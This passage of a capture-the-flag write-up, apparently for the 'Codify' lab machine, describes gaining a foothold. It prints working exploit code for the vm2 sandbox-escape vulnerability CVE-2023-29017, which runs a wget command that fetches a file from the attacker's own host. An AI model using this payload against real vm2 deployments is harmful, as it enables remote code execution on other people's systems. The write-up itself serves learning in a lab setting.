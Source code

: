## Foothold

### Exploit

Searching for vm2 exploit I came across [CVE-2023-29017](https://socradar.io/critical-vulnerability-in-vm2-javascript-sandbox-library-exploit-code-available/)

It's a RCE vulnerability, so I tried uploading a file from my machine
Created a test file and started a python http server
![](Codify/pythonserver1.png)

Then I ran this code on the code editor

``` text
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('wget http://10.10.14.2:1234/test'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));

```

And I confirmed that it downloaded the file from my machine
![](Codify/testfile.png)
